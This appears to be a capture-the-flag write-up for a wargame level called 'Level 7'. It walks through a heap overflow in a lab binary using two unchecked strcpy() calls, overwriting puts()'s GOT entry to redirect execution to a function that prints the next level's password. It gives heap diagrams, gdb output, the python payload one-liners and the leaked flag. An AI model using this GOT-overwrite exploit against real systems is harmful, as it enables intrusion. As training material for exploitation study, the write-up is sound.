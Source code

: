 # Level 7

<h3>source.c</h3>

```console
char c[68];

void m(void) {
  printf("%s - %d\n", c, time(0));
}

int main(int argc, char** argv) {
  int* l_var1;
  int* l_var2;

  l_var1 = malloc(8);
  l_var1[0] = 1;
  l_var1[1] = malloc(8);

  l_var2 = malloc(8);
  l_var2[0] = 2;
  l_var2[1] = malloc(8);

  strcpy(l_var1[1], argv[1]);
  strcpy(l_var2[1], argv[2]);

  fgets(c, 68, fopen("/home/user/level8/.pass", "r"));

  puts("~~");

  return (0);
}
```

<h3>Analysis</h3>

In this program, we can see there is several `malloc()` and `strcpy()` which means we could exploit the heap buffer overflow like the previous level

At the later part of the `main()`, `fopen()` is reading the password file, which in turn get the content saved into the global variable `c` by `fgets()`

And `m()` will prints out the content of the global variable `c`, but it never get called

Our target this time will be to redirect the `puts()` by modify its `GOT` value to the address of `m()` so it will be executed instead of the real `puts()`

We can achieved this by first over writing te value of `l_var2[1]` with the help of 1st `strcpy()` so that `l_var2[1]` will contain the address of the `GOT` from `puts()`

Next the 2nd `strcpy()` will write the address of `m()` into the `GOT` of `puts()`

<h3>Exploit</h3>

First we need to get the address of `m()`

```console
(gdb) print m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

There we have the address of `m()` which is `0x080484f4`

Next, lets visualize the `heap` state after all those call to `malloc()`

```console

1st malloc call (l_var1 = malloc(8))

        +-----------+
        | l_var1    |                                                 -> 8 bytes reserve for l_var1,
+-------------------+                                                    and it could split to 2 area of 4 byte by saving 2 int type data
| M | B | 8 bytes   |
+-------------------+
        | [0] | [1] |
        +-----------+

2nd malloc call (l_var1[1] = malloc(8))

        +-----------+   +-----------+
        |  l_var1   |   | l_var1[1] |                                 -> 8 bytes reserve for l_var1[1],
+-----------------------------------+                                     now l_var1[1] contains the address that point to those area
| M | B | 8 bytes   | B |  8 bytes  |                
+-----------------------------------+
        | [0] | [1] |___/
        +-----------+

3rd malloc call (l_var2 = malloc(8))

        +-----------+   +-----------+   +-----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |                 -> 8 bytes reserve for l_var2,
+---------------------------------------------------+                    it could split to 2 area of 4 byte by saving 2 int type data
| M | B | 8 bytes   | B |  8 bytes  | B |  8 bytes  |
+---------------------------------------------------+
        | [0] | [1] |___/               | [0] | [1] |
        +-----------+                   +-----------+

4th malloc call (l_var2[1] = malloc(8))

        +-----------+   +-----------+   +-----------+   +----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |   | l_var2[1]|  -> 8 bytes reserve for l_var2[1],
+------------------------------------------------------------------+     now l_var2[1] contains the address that point to those area
| M | B | 8 bytes   | B |  8 bytes  | B | 8 bytes   | B |  8 bytes |
+------------------------------------------------------------------+
        | [0] | [1] |__/                | [0] | [1] |__/
        +-----------+                   +-----------+


Offset needed to overwrite l_var1[1]

        +-----------+   +-----------+   +-----------+   +----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |   | l_var2[1]|
+------------------------------------------------------------------+
| M | B | 8 bytes   | B |  8 bytes  | B | 8 bytes   | B |  8 bytes |
+------------------------------------------------------------------+
        | [0] | [1] |__/|           |   | [0] | [1] |__/
        +-----------+   |           |   +-----------+
                        | 8 bytes   | 8 |  4  |                       -> Combine size of l_var[1] (8 bytes) + l_var2 block metadata (8 bytes)
                        +-----------+---+-----+                          + l_var2[0] size of int (4 bytes), we get the total of 20 bytes

```

Now we have the offset to overwrite the address saved in side `l_var2[1]`, lets find the `GOT` address of `puts()`

```console
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

There we have it, `0x08049928`

First we need to overwrite the address saved in side `l_var2[1]` with the following

`python -c "print 'a' * 20 + '\x28\x99\x04\x08'"`

Next to overwrite the content of `GOT` with the following

`python -c "print '\xf4\x84\x04\x08'"`

Now is the time to combine everything together

```console
level7@RainFall:~$ ./level7 `python -c "print 'a' * 20 + '\x28\x99\x04\x08'"` `python -c "print '\xf4\x84\x04\x08'"
`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1636248706
```